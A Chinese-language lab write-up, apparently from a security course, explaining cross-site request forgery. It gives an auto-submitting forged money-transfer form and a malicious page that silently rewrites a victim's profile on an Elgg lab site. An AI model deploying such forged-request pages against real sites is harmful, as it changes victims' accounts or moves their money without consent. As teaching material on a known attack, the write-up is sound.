





# 针对http post服务的CSRF攻击

## js构建post请求一般做法

```html
<form action="http://www.example.com/action_post.php" method="post">
    Recipient Account: <input type="text" name="to" value="3220"><br>
    Amount: <input type="text" name="amount" value="500"><br>
    <input type="submit" value="Submit">
</form>
```
如果用户点击Submit按钮，一个post请求就会发送出去，并且to=3220&amount=500也会包含其中。
但是用户很可能不会去点这个按钮。那么可以把表单隐藏起来，用js程序来单击这个按钮
```javascript
<script type="text/javascript">
function forge_post() {
  var fields;
  fields += "<input type='hidden' name='to' value='3220'>";
  fields += "<input type='hidden' name='amount' value='500'>";
  
  var p = document.createElement("form");
  p.action = "http://www.example.com/action_post.php";
  p.innerHTML = fields;
  p.method = "post";
  document.body.appendChild(p);
  p.submit();
}

window.onload = function() {
  forge_post();
}
</script>
```

## 针对Elgg的编辑个人资料服务的攻击

攻击目标：攻击Alice，让她的个人资料改成"SAMY is MY HERO"  

### 首先要观察所需字段

首先登陆Samy账户，Account--Setting--Edit profile

可以看到请求url为：http://www.csrflabelgg.com/action/profile/edit  
Params栏中description为个人资料，可以分析出来个人资料中每块区域都有访问等级限制，设置为2时所有
人都可以看到，这个字段为accesslevel[description]   


GUID是目标用户的id，这个图中45是Samy，我们通过访问Alice个人主页可以看到Alice的guid为42


### 构建恶意网页

```html
<html>
    <body>
        <h1>This page forges an HTTP POST request</h1>
        <script type="text/javascript">
            function forge_post(){
                var fields;
                
                fields = "<input type='hidden' name='name' value='Alice'>";
                fields += "<input type='hidden' name='description' value='SAMY is MY HERO'>";
                fields += "<input type='hidden' name='accesslevel[description] value='2'>";
                fields += "<input type='hidden' name='guid' value='42'>";
                
                var p = document.createElement("form");
                p.action = "http://www.csrflabelgg.com/action/profile/edit";
                p.innerHTML = fields;
                p.method = "post";
                document.body.appendChild(p);
                p.submit();
            }
            
            window.onload = function() {
                forge_post();
            }
        </script>
    </body>
</html>
```
这个页面放在/var/www/CSRF/Attacker


### 吸引Alice访问恶意网页

Alice账户登录，点恶意网页www.csrflabattacker.com  
会自动跳转到目标网站，并且个人主页已经被改掉  
